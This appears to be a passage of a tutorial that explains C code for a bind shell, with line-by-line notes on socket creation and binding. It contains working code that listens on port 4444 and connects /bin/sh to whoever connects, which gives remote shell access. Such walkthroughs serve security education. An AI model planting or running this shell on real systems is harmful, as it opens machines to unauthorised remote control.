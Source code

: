 ```c
        close(sock);
        exit(EXIT_FAILURE);
    }

    // Accept connection
    int fd = accept(sock, NULL, NULL);
    if (fd == -1) {
        perror("Socket accept failed.\n");
        close(sock);
        exit(EXIT_FAILURE);
    }

    // Duplicate stdin/stdout/stderr to socket
    dup2(fd, 0); // stdin
    dup2(fd, 1); // stdout
    dup2(fd, 2); // stderr

    // Execute shell
    execve("/bin/sh", NULL, NULL);
}
```

#### 1. Socket creation
```c
// Create socket
int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
if (sock == -1) {
    perror("Socket creation failed.\n");
    exit(EXIT_FAILURE);
}
```

The `socket` function requires 3 arguments:
- int `domain`: The domain is `AF_INET` here since we are going to use IPv4 instead of local sockets or IPv6.
- int `type`: For TCP sockets we use `SOCK_STREAM`. If we wanted to use UDP we'd use `SOCK_DGRAM` instead.
- int `protocol`: For `SOCK_STREAM`, there's a single protocol implemented, we could use 0 also here.

#### 2. Binding the socket
```c
// Create addr struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444); // Port
    addr.sin_addr.s_addr = htonl(INADDR_ANY); // Listen on any interface

[...]

// Bind socket
if (bind(sock, (struct sockaddr *) &addr, sizeof(addr)) == -1) {
    perror("Socket bind failed.\n");
    close(sock);
    exit(EXIT_FAILURE);
}
```
A socket by itself doesn't do anything since we haven't associated the socket with any port or IP address. The `bind` function assigns the IP and port to the socket previously created. The man pages for `ip` explain the different parameters:

